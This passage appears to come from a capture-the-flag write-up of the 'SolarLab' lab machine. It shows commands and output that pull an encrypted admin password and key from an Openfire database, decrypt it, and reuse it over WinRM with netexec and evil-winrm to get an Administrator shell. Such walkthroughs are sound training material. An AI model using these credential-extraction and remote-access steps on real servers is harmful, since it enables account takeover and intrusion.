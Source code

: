 ![](/assets/images/Solarlab/Pasted%20image%2020240921144054.png)

Then, I followed the steps from [here](https://www.digitalocean.com/community/tutorials/install-maven-linux-ubuntu) to install mvn and now I can run the tool:

```bash
PS C:\Program Files\Openfire\embedded-db> type openfire.script | findstr INSERT | findstr OFUSER
INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')
INSERT INTO OFUSERPROP VALUES('admin','console.rows_per_page','/session-summary.jsp=25')
PS C:\Program Files\Openfire\embedded-db> type openfire.script | findstr OFPROPERTY | findstr passwordKey
INSERT INTO OFPROPERTY VALUES('passwordKey','hGXiFzsKaAeYLjn',0,NULL)
PS C:\Program Files\Openfire\embedded-db> 
```

```bash
❯ cd OpenFire_Decrypt
❯ mvn clean package -DskipTests
❯ java -jar target/OpenFire-1.0-SNAPSHOT-jar-with-dependencies.jar
__________________________________________
OpenFire 管理后台账号密码解密
encryptedPassword =>> 后台用户的密码
passwordKey =>> 安装生成的秘钥

[+] encryptedPassword= becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442
[+] passwordKey= hGXiFzsKaAeYLjn
[+] Password =>> ThisPasswordShouldDo!@
```

The password is 'ThisPasswordShouldDo!@'. Let's see if it works for administrator in the system using winrm port I forwarded before with chisel:

```bash
❯ netexec winrm localhost -u Administrator -p 'ThisPasswordShouldDo!@'
WINRM       127.0.0.1       5985   SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 (name:SOLARLAB) (domain:solarlab)
WINRM       127.0.0.1       5985   SOLARLAB         [+] solarlab\Administrator:ThisPasswordShouldDo!@ (Pwn3d!)
```

It works! Now I can gain access as administrator using evil-winrm:

```bash
❯ evil-winrm -i localhost -u Administrator -p 'ThisPasswordShouldDo!@'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
```